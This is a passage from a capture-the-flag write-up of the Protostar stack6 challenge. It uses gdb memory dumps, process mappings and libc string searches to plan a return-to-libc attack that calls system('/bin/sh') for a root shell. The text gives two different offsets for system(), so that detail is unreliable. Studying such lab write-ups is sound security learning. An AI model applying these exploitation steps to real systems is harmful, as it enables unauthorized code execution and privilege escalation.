 The `0x71717170` located in address `0xbffff68c` is actually the value of the local variable `ret`, which got its value from the function [__builtin_return_address](https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html). The memory dump shows that user input is stored in address `0xbffff64c`, so we need padding of 80 characters to reach the return address.


However, the program checks to make sure that the return address we provide does not begin with `0xbf...`. Running `info proc mappings` in gdb shows us that the stack starts at address `0xbffeb000`. That means the program does *not* allow us to return to our shellcode in the stack.

```
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]

```

### Return to Lib C

Instead of inserting a shellcode into the stack and executing it like we did in previous challenges, the program recommends *ret2libc*.

> A ret2libc (return to libc, or return to the C library) attack is one in which the attacker does not require any shellcode to take control of a target, vulnerable process.

The shared library `libc-2.11.2.so` was mapped to address `0xb7e97000` onwards, so the program will allow us to return to C library functions in it, for example `00038fb0 <__libc_system>:`. All we need is to take into account the offset in memory address. In other words, while `<__libc_system>` is in address `0x97170` in the shared library, it is in address `0xb7e97000 + 0x38fb0 = 0xb7ecffb0` We could call `system(/bin/sh)` to get us a shell as root. I also found the string `'/bin/sh'` in the shared library. I don't know why it would ever be in there, but it is.
```
user@protostar:/opt/protostar/bin$ strings --radix=x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```
The address of the string in `stack6` is `0xb7e97000 + 0x11f3bf = 0xb7fb63bf`. We can verify it in gdb.
```
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:	 "/bin/sh"
```
Funnily however, if we use the `find` function in gdb, gdb somehow does not give us the correct address of `'/bin/sh'`. Oh well, shit happens. ¯\_(ツ)_/¯
```
(gdb) find 0xb7e97000, 0xb7fd5000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:	 "KIND in __gen_tempname\""
```
